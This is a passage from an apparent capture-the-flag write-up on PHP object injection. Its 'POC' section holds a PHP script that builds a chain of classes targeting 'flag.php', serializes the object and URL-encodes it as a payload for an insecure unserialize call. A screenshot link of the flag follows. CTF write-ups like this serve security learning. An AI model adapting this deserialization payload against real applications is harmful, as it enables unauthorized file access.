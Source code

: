 **POC**

```php
<?php
class acp
{

    protected $cinder;
    public $neutron;
    public $nova;
    function __construct()
    {

        $this->cinder = new ace();
    }
}

class tmp {
    public $neutron;
    public $nova;
}

class ace
{

    public $filename = 'flag.php';
    public $openstack;
    public $docker;

    public function __construct()
    {
      $this->docker = serialize(new tmp());
    }

}

$a = new acp();
// echo "\n";
// echo serialize($a);
echo "\n";
echo(urlencode(serialize($a)));
?>
```

**Flag**

![Untitled](/assets/img/bcObjInjection/Untitled%207.png)

---
